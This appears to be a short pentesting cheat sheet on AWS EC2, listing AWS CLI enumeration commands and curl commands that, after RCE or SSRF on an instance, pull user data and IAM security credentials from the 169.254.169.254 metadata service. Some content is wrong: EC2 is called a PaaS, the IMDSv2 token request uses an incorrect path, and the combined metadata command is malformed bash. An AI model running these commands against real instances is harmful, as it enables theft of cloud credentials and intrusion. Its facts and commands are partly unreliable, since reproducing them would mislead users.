 - `EC2` is basically a PaaS (Platform as a Service) which we can use to run VMs in the cloud
- `Amazon Machine Image (AMI):`  It provides the information required to launch an EC2 instance
- `Secuirty Group` acts as a firewall on an EC2 instance level to control inbound and outbound traffic
---
## Enumeration 

| Description | Command |
| --- | --- |
| Describe an EC2 Instances In a specified VPC  | `aws ec2 describe-instances --filters "Name=vpc-id,Values=${VPC_ID}"` |
| Describe a specific instance | `aws ec2 describe-instances --instance-id ${Inst-ID}` |
| Get info about UserData Attribute of a specific instance| `aws ec2 describe-instance-attribute --attribute userData --instance-id ${Inst-ID}` |
|  Get info about the IAM instance profile associations | `aws ec2 describe-iam-instance-profile-associations` |

- If you managed to get RCE/SSRF on an EC2 instance you can leverege that to get the user metadata

##### #AWS-Matadata/UserData

 - IMDV1
	 - `curl http://169.254.169.254/latest/meta-data/`
	 - `curl http://169.254.169.254/latest/user-data/`
	 - `curl http://169.254.169.254/latest/meta-data/identity-credentials/ec2/security-credentials/ec2-instance`
	 - `curl http://169.254.169.254/latest/meta-data/iam/security-credentials/`
 - IMDV2 --> 
```bash
 TOKEN=`curl -X PUT "http://169.254.169.254/latest/api" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && curl -H "X-aws-ec2-metadata-token: $TOKEN" -v http://169.254.169.254/latest/${meta,user}-data/
```



